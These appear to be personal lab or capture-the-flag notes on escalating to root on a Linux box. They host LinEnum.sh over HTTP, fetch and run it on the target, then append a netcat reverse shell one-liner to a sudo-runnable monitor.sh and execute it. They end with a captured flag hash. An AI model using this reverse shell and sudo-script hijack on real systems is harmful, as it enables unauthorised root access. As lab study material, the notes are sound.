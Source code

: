 [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform some automated privilege escalation checks

```pug
sudo python3 -m http.server 8080
```
Back on the target type `wget http://<your ip>:8080/LinEnum.sh` to download the script
`chmod +x LinEnum.sh` to make the script executable and then type `./LinEnum.sh` to run it
![[Pasted image 20250207094509.png]]
+ chmod -x LiNum.sh
- ./LiNum.sh

TON of INFO

```shell-session
[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
we could have checked with `sudo -l`
![[Pasted image 20250207095302.png]]


reverse shell one liner (as a root user as the monitor.sh is with sudo previlige)
```pug
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.65 8443 >/tmp/f' | tee -a monitor.sh
```
listen
```pug
nc -lvnp 8443
```
and start
```pug
sudo ./monitor.sh
```

-> root access

de5e5d6619862a8aa5b9b212314e0cdd
![[Pasted image 20240427173540.png]]